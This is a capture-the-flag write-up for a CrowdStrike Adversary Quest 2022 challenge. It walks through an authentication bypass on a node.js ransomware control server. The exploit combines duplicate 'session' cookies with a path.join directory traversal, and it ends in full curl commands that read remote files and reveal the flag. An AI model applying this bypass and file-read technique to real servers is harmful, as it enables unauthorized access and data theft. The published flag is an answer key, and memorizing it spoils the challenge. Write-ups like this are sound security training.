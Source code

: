 # Crowdstrike Adversary Quest 2022 / Catapult Spider / #2 Such Control Wow

## Challenge Description

The ransomware was installed on a customer’s computer via a malicious CHM file. The PowerShell script that you analyzed previously installed multiple second stage binaries, including a binary that enables CATAPULT SPIDER to control the execution of the ransomware. The ransomware has locked the customer completely out of their machines and encrypted their data. The customer does not want to pay the ransom and has asked us for help in unlocking one of their systems. Can you find a way to unlock the machine without paying the ransom? We have obtained a version of the control binary for you to analyze. The locked machine is reachable at the IP 116.202.161.100.

## Pre-Requisites

```txt
$ sudo npm install -g dogescript
```

## TL;DR Summary

- The supplied server/control binary is a compiled node.js application written in Dogescript
- The authentication checks can be bypassed with two Cookies with the same name **session**
- Exploiting a directory traversal vulnerability (**path.join()**) in **checkAuth()** allows access to the control functions.
- Using the function **readfile**, the flag file can be read remotely.

## Analysis

The file **control.exe** is quite large, roughly 50 MiB. It is a 64 Bit Windows PE executable.

```txt
$ file control.exe 
control.exe: PE32+ executable (console) x86-64, for MS Windows
```

Strings output yields Dogescript (some _fun_ language that compiles into javascript) at the end of the file. We can manually copy/dump the dogescript to a file called [**dogescript.djs**](./dogescript.djs).

Catapult Spider has been known to use compiled node.js binaries with Dogescript in the past as well, so that's not a surprise. ;-) See CrowdStrike's Adversary Quest 2021, Challenge 2 ("Very Protocol") of Catapult Spider track.

Compile the Dogescript to JavaScript with `dogescript dogescript.djs > javascript.js` and beautify it a bit with Notepad++ JS-Tool/Format to [**javascript_formatted.js**](./javascript_formatted.js).

The script seems to listen on port 8124.

First connection:

```txt
$ curl http://116.202.161.100:8124
Nothing here.
```

Reaction **Nothing here** came from line 477 of javascript_formatted.js.

The script seems to implement the following commands

- auth (lines 144+, methods GET and POST)
- readfile (lines 210+, method GET)
- dirlist (lines 272+, method GET)
- unlock (lines 323+, method GET)
- decrypt (lines 365+, method GET)
- wipe (lines 420+, method GET)
- logout (lines 455+)

Trying to retrieve a directory listing from the current working directory could work like this:

```txt
$ curl http://116.202.161.100:8124/dirlist?dir=.
Not authorized.
```

To be able to use the commands, the condition `if (user != null && authorized)` has to evaluate to true. `user` is derived from `user = getUserSession(cookies['session']);` and `authorized` from `authorized = checkAuth(request);`

### Closer Look at sessionid Generation and Usage

A new `sessionid` would be created, if we were able to call the `/auth` command. If we supply the correct username and password, `createSession(user, request.socket.remoteAddress);` is called. The resulting `sessionid` is then used as a Cookie.

Since the password is set randomly to a 20 byte long value, there is no point in trying to guess that (line 13).

How are sessions created?

```javascript
function createSession(user, ip) {
    var rand = Math.floor(Math.random() * 32000);
    var sessionbfr = Buffer.from(`${user}/${ip}/${rand}`);
    var b64_session = sessionbfr.toString('base64')
        .replace(/\+/g, '-')
        .replace(/\//g, '_');
    var content = JSON.stringify({
        'user': user,
        'ip': ip
    });
    fs.writeFileSync(path.join(AuthStore, b64_session), content);
    return b64_session;
}
```

The string `sessionbfr` contains username, ip-address and a random value concatenated with slashes. It is base64 encoded (url-safe) and then used as a filename (`b64_session`). Since `AuthStore` has the value of `/tmp/sessions/` (line 9), a JSON string with user and ip values is written to the file path `/tmp/sessions/` concatenated with value of `b64_session`.

How are session values checked? The function `getUserSessions` is called with the cookie value `session`.

```javascript
function getUserSession(session) {
    try {
        var sessionbfr = Buffer.from(session.replace(/-/g, '+').replace(/_/g, '/'), 'base64');
        var sessionstr = sessionbfr.toString('utf8');
    } catch (err) {
        console.error(`Failed\x20to\x20get\x20user:\x20${err}`);
        return null;
    }
    var parts = sessionstr.split('/');
    if (parts.length != 3) {
        return null;
    }
    return parts[0];
}
```

The session cookie value is base64 decoded, split at slash characters. It has to only contain two slashes so it splits in exactly three parts. The first part is returned as the username. It is not checked, if the corresponding session file exists in the `AuthStore`.

So in order to fill the variable `user = getUserSession(cookies['session']);`, we could just supply any base64 encoded (url-safe) string like `dummy//`, which encodes to `ZHVtbXkvLw==`

### Closer look at function checkAuth

Additionally, we need to have the function `checkAuth` return `true` in order to be allowed to execute commands.

```javascript
function checkAuth(request) {
    var rc = request.headers.cookie;
    if (!rc) {
        return false;
    }
    var cookies = rc.split(';');
    for (const cookie of cookies) {
        var parts = cookie.split('=');
        if (parts.shift().trim() === 'session') {
            var session = decodeURI(parts.join('='))
                console.log('Session: ' + session);
            var sessionPath = path.join(AuthStore, session)
                console.log('Path: ' + sessionPath);
            if (fs.existsSync(sessionPath)) {
                console.log('File exists.');
                return true;
            }
        }
    }
    return false;
}
```

This function parses the list of all cookie values, looking for a session cookie (as well). It evaluates if a file at `path.join(AuthStore, session)` exists and then returns true.

While we are unable to guess existing sessionid values in the `AuthStore`, `path.join` seems vulnerable to a directory traversal attack.

If we could create a path to an existing file, `checkAuth` will return true. Line 11 yields `UNLOCK_FILE = 'C:\\Windows\\flag.txt';`, which could be used for this approach.

#### Executing our first Command

In order to execute a command, we need to set two cookie values - both named `session`.

- One has to fulfill the requirements for `checkAuth` (directory traversal to a file path we know exists on the host)
- The other has to yield a username for `getUserSessions` (base64 url-safe encoded string with two slashes)

While `checkAuth` iterates over all cookies, `getUserSessions` is called with `cookies['session']`. For this approach to work out, the order of the cookies with the same name `session` might be relevant. Which one does node.js return for `getUserSessions`: the first or last occurrence?

```txt
$ curl --cookie "session=ZHVtbXkvLw==;session=../../Windows/flag.txt" http://116.202.161.100:8124/dirlist?dir=.
Not authorized.

$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/dirlist?dir=.
such "Directory" is "." next "Listing" is so "control.js" next "node_modules" next "server.djs" many wow
```

Awesome!

#### Executing some commands

Now that we can execute commands, let's poke around...

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=./control.js
const lefs = require('fs'); const ledogescript = require('dogescript'); var doge_file = lefs.readFileSync('./server.djs').toString('utf-8'); const the_doge = eval(ledogescript(doge_file));
```

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/unlock
such "unlock" is "Rvq8/ZXdIFwKaCjbM8AAvfWyaO8f5AEMfUOJwX+ERHc=" next "date" is "Wed Jul 13 2022 13:09:33 GMT-0700 (Pacific Daylight Time)" wow
```

That is supposedly the base64 value of the SHA256 hash of the flag. Not very helpful... (see function `unlock`, lines 94+).

## Now it's Flag Time!

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=../../../Windows/flag.txt
CS{such_m4ny_C00kies_c0nfUs3d_w0w}
```

Flag: **CS{such_m4ny_C00kies_c0nfUs3d_w0w}**

